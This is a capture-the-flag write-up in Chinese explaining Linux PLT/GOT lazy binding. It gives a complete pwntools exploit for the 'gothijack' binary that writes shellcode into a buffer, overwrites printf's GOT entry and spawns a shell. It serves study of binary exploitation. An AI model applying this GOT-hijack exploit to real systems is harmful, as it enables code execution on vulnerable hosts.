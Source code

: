 Linux中PLT和GOT表以及延迟绑定机制

### 分析

1. `checksec`分析

   ```shell
   [*] '/ctf/work/gothijack'
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    Canary found
       NX:       NX disabled
       PIE:      No PIE (0x400000)
       RWX:      Has RWX segments
   ```

2. 根据Linux中PLT&GOT表的延迟绑定机制，我们可以知道在`scanf()`函数要求我们输入地址前后[^1]，都使用`printf()`函数输出字符串，因此只要我们在更改`<printf@plt>`值为shellcode的地址后，一旦再次调用`printf()`函数就会直接执行shellcode

3. 通过`objdump`查地址

   - 存放shellcode的`name`地址：`0x404080`

   - `<printf@plt>`的地址：`0x404028`

     ```
     00000000004010b0 <printf@plt>:
       4010b0:       f3 0f 1e fa             endbr64
       4010b4:       f2 ff 25 6d 2f 00 00    bnd jmp QWORD PTR [rip+0x2f6d]        # 404028 <printf@GLIBC_2.2.5>
       4010bb:       0f 1f 44 00 00          nop    DWORD PTR [rax+rax*1+0x0]
     ```

### Exp

```python
from pwn import *

r = process("./gothijack")
context.arch = "amd64"

r.recvuntil("name?\n")
sc = asm(shellcraft.sh())
r.send(sc)

r.recvuntil("write?\n")
p = 0x404028
r.sendline(str(p))

r.recvuntil("Data: \n")
p1 = p64(0x404080)
r.send(p1)

r.interactive()
```

---

[^1]: 是执行到这句`printf("Thank you %s!\n", name);`才跳转到shellcode
[^2]: 这些片段也称为 *gadget*
